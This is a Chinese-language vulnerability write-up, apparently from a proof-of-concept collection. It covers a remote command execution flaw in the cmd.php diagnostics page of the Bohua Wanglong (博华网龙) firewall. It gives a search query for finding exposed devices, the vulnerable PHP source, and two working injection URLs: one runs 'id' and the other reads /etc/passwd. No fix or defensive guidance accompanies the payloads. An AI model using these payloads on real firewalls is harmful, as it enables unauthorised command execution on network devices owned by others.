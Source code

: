 # 博华网龙防火墙 cmd.php 远程命令执行漏洞

## 漏洞描述

博华网龙防火墙 cmd.php 过滤不足，导致命令拼接执行远程命令

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面

![img](./images/202202162249275.png)

存在漏洞的文件为 **/diagnostics/cmd.php**

```php
<?php
    include_once("pub/pub.inc");
    include_once("pub/session.inc");
    
    $username = $_SESSION["USER_NAME"];
    checkApproachUrl(); 
    
  if($_GET['action'] == "ping")
  {
        $host = $_GET['host'];
        $count = $_GET['count'];
        system("/bin/ping -c $count " . escapeshellarg($host)." >temp.htm");
        
         if($username)
            pSyslog("ping $host $count次", 0);           
  }
  else if($_GET['action'] == "traceroute")
  {
        $host = $_GET['host'];
        $ttl =  $_GET['ttl'];
        $useicmp = $_GET['useicmp'];
        
        if($useicmp)
            $useicmp = "-I";
        else
            $useicmp = "";        
        system("/usr/bin/traceroute -d $useicmp -w 2 -m " . escapeshellarg($ttl) . " " . escapeshellarg($host)." >temp.htm");    
        if($username)
            pSyslog("traceroute $host 跳数为$ttl", 0);     
  }
  else if($_GET['action'] == "arping")
  {
    $host = $_GET['host'];
    $count = $_GET['count'];
    $if = $_GET['ifName'];
    $src = $_GET['src'];
    system("/usr/bin/arping -I $if -c $count -s $src $host >temp.htm");
    
     if($username)
        pSyslog("arping $host $count次", 0);
  }
  else
  {
    system("echo \"\" >temp.htm");
  } 
?>
```

可以发现其中存在多个命令执行点，均可进行命令拼接执行恶意命令

构造命令执行

```php
/diagnostics/cmd.php?action=ping&count=||id||
/diagnostics/cmd.php?action=arping&ifName=|cat /etc/passwd||
```

![img](./images/202202162249153.png)